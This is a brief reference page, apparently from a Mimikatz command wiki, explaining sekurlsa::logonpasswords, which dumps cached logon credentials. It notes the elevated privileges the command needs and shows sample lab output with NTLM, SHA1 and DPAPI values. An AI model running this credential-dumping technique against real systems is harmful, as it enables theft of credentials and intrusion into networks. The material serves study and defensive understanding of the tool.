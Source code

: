# logonpasswords

It lists all available provider credentials. This usually shows recently logged on user and computer credentials.

{% hint style="warning" %}
This command requires elevated privileges (by previously running [`privilege::debug`](../privilege/debug.md) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 712960 (00000000:000ae100)
Session           : Service from 0
User Name         : MediaAdmin$
Domain            : hacklab
Logon Server      : DC
Logon Time        : 9/26/2021 4:57:38 AM
SID               : S-1-5-21-2725560159-1428537199-2260736313-1427
        msv :
         [00000003] Primary
         * Username : MediaAdmin$
         * Domain   : hacklab
         * NTLM     : 35950fdc8d3d99b4136510414009662d
         * SHA1     : 185535108abf1fc0287dedbaff210b77989251c8
         * DPAPI    : 73006d59c6adcf27da6e097787a6d1f9
        tspkg :
        wdigest :
         * Username : MediaAdmin$
         * Domain   : hacklab
         * Password : (null)
        kerberos :
         * Username : MediaAdmin$
         * Domain   : HACKLAB.LOCAL
         * Password : (null)
        ssp :
        credman :
```
